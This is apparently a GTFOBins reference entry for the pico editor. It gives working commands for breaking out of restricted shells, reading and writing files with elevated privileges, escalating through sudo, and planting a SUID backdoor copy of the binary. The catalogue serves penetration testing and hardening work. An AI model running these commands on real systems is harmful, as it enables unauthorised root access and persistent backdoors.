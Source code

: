 # GTFOBin: pico

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
pico
^R^X
reset; sh 1>&0 2>&0
```

The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.

```
pico -s /bin/sh
/bin/sh
^T
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
pico file_to_write
DATA
^O
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
pico file_to_read
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo pico
^R^X
reset; sh 1>&0 2>&0
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.

```
sudo install -m =xs $(which pico) .

./pico -s /bin/sh
/bin/sh
^T
```